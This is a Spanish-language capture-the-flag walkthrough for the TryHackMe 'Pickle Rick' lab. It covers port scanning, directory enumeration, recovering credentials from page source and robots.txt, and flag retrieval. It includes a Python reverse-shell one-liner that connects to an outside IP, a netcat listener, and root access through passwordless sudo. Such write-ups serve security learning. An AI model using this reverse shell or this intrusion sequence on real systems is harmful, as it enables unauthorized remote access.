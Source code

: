 ''' 
https://tryhackme.com/room/picklerick
# PICKEL RICK --> EASY
'''

' ' ' '
### --> ESCANEO                                         

Para comenzar con esta máquia una vez que la inciamos en TryHackMe utilizaremos
el ping con el objetivo de saber qué ttl nos resuelve esto mediante una traza ICMP:                                                

$ ping -c 1  10.10.209.28                                                    

Gracias a esto conocemos el sistema operativo                                
mediante el ttl.                                                            

### --> MAPEO DE PUERTOS:

Para comenzar con el scaneo de los puerto utilizo este script de nmap el cual
está optimizado para que sea lo suficientemente rápido y no perder tiempo:   

$ sudo nmap -sS --min-rate 5000 --open -n -Pn -vvv 10.10.209.28 -oG ScanPort 

Con el script anterior lo que hacemos es analizar de manera general todos los
puertos abiertos y después sacar los puertos abierto y poder escanearlos con 
el siguiente scritp de forma detallada.                                       

$ nmap -sC -sV -p22,80 10.10.209.28 -oN Ports                                
De esta forma con ambos scripts ya conseguimos lo que necesitamos acerca de  
los servicios que manejan cada puerto.                                       
De antemano vemos que devuelve un puerto 80, esto ya nos da la información    
que maneja un servidor web por lo que vamos a explorar dicha página web.     

Entrando a la página no encontramos nada importante en el frontend o interfaz
por lo tanto daremos ctrl+u para ver el código fuente por si encontramos algo
que sean indicios de algo. Analizando el código fuente vemos comentarizado
lo siguiente:                                                                
' ' ' '
Username: R1ckRul3s                                                          

Normalmente nombres así pueden ser potenciales usuarios para poder hacer el
ataque necesario. Pero no es todo, de esta misma forma podemos encontrar
contraseñas.
Como forma adicional podemos ver que existe un directorio por el que se manda
a llamar la imagen que esta en el inicio, nos dirijiremos mediante la url a
este directorio

--> http://10.10.209.28/assets/
De esta forma hacemos el movimiento de directorio, pero ya estando dentro nos
damos cuenta que no hay mas que imagenes pero sabemos que hay mas directorios
por lo tanto utilizaremos el enumeramiento de directorios con gobuster en mi
caso pero usa el de tu preferencia:

gobuster dir -u http://10.10.209.28/ -w /usr/share/wordlists/dirbuster/direct
ory-list-2.3-medium.txt -x php,txt,py,zip,html

Una vez termine vemos que existe un documento robots.txt, estos documentos
suelen tener información bastante sensible, por lo tanto siempre hay que
buscarlos pues nos serian de gran ayuda
Bien, ya entrando desde el link de la misma forma que con la carpet assets lo
hacemos pero poniendo /robots.txt y así nos dirigiremos a dicho archivo.
NOTA: el traversal se hace mediante la url de la página.

frase encontrada: Wubbalubbadubdub
Potencialmente puede ser la contraseña del usuario que encontramos

Como información adicional del gobuster encontramos 2 archivos .php pero uno
viene como login.php, por lo tanto abriremos primero eso de la misma forma
que abrimos los demás archivos. Una vez abierto los dos vemos que nos dirijen
al mismo login por lo tanto no haremos mas que intentar burlar este login.
Lo primero a intentar es utilizar credenciales por defecto como:             

admin = admin
user = pass
root = root

Entre otras contraseñas, pero al no coincidir con estas   
primers dos, lo mas recomendable es probar con lo que ya  
tenemos:                                                  
*Username: R1ckRul3s                                       
*Password: Wubbalubbadubdub                                
                                                                             
Utilizando estas credenciales vemos que nos da acceso a un panel de ejecucion
algunas veces nos pueden dar este tipo de paneles con una bash, pero primero 
hay que ver qué tipo de comandos ejecuta. Al buscar y probar comando de dife-
rente lenguajes, me di cuenta que es terminal de comandos, por lo tanto con
los siguientes comando averiguaremos quienes somos, donde estamos y que hay
donde yo estoy:                                                              

*$ pwd    --> en que directorio estamos
*$ whoami --> quien soy en el sistema
*$ ls     --> lista directorio actual

con el comando ls encontramos el archivo donde encontraremos una flag o
ingrediente, utilizamos varios comando, pero nos damos cuenta que no deja uti
lizar el comando cat y nano, por lo tanto usaremos strings, con esto logramos
ver el contenido del archivo, y asi ver el de los demas archivos y listo     
primera flag econtrada.                                                      
para una reverse shell buscaremos que haya python en cualquier version o en  
su defecto perl, ruby o php, asi podremos ejecutarla                         
para probar python usaremos un comando simple y veremos si nos da un output  
$ python3 -c "print('hello world')"                                          
                                                                             
y nos devuelve un output deseado, por lo tanto usaremos la siguiente reverse 

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.152.61",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

cambiamos la IP a nuestra IP de la vpn y ponemos un el puerto 1234 en escucha para
la reverse shell con el comando:

$ nc -lnvp 1234
NOTA: ejecutaremos primero la instruccion del puerto en escucha en nuestra terminal,
la reverseshell la actualizaremos con nuestra IP y esa se ejecuta directamente en la 
webshell que esta en el navegador.

De esta forma obtenemos acceso a la máquina desde nuestra terminal, mucho mas cómodo
ahora veremos con los mismos comandos quiénes somos, donde estamos y que hay donde estamos,
estamos situados exactamente en el mismo lugar que la webshell. Encontraremos la forma de
convertirnos en root, probaremos lo mas sencillo, cambiarnos a root para ver si mínimo
no tiene credenciales de autenticación:
$ sudo su
$ whoami

despues de la ejecucion de estos dos comando vemos que no necesitabamos credenciales para
poder hacernos root, hay hacemos path traversal a la carpeta /home de ahí nos dirigimos a 
la carpeta rick
$ cd /home
$ ls /rick

vemos que tiene un archivo con la segunda flag, la abrimos con strings y listo

$ cd rick ; xargs strings "second ingredients"

ahora nos dirigiremos al directorio raiz y nos moveremos hasta root y el mismo procedimiento
listamos
$ cd ../../root | xargs strings 3rd.txt

y listo, máquina resuelta.

Espero te haya gustado, es una máquina bastante sencilla, muy fácil para empezar de 0 y 
conocer acerca de explotacion y busqueda de vulnerabilidades, cualquier duda
mandar mensaje directo por discord, espero haberte enseñado algo nuevo c:

Discord: MrGh057#4905
